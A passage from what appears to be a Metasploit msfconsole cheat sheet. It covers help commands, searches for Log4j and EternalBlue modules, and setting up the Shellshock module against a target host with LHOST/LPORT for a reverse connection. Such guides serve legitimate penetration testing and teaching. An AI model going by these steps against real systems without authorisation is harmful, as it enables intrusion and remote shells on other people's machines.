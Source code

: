### Essential msfconsole Commands
```bash
# Navigation and help
help                          # Show help menu
help <command>               # Specific command help
back                         # Go back to previous context
exit                         # Exit msfconsole

# Search and selection
search <term>                # Search for modules
search type:exploit platform:linux
use <module_path>            # Select a module
info                         # Show module information
show options                 # Display module options
```

---

## Working with Exploits

### Finding and Using Exploits
```bash
# Search for specific vulnerabilities
search cve:2021-44228        # Log4j vulnerability
search ms17-010              # EternalBlue
search platform:linux type:exploit

# Select and configure exploit
use exploit/linux/http/apache_mod_cgi_bash_env_exec
show options
set RHOSTS 192.168.1.100
set RPORT 80
set TARGETURI /cgi-bin/test.cgi
```

### Exploit Configuration
```bash
# Set required options
set RHOSTS 192.168.1.100    # Target host(s)
set RPORT 443                # Target port
set LHOST 10.10.10.10       # Local host for reverse connections
set LPORT 4444               # Local port for reverse connections

# Show advanced options
show advanced

# Set target (if multiple targets available)
show targets
set TARGET 0
```
